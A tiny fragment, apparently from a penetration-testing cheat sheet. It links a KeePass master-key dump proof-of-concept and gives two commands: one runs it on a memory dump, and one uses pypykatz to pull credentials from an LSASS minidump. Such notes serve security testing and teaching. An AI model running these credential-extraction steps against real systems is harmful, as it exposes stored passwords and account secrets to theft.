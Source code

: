 	https://github.com/CMEPW/keepass-dump-masterkey
	python3 poc.py [file].dmp

	OR

	pypykatz lsa minidump lsass.DMP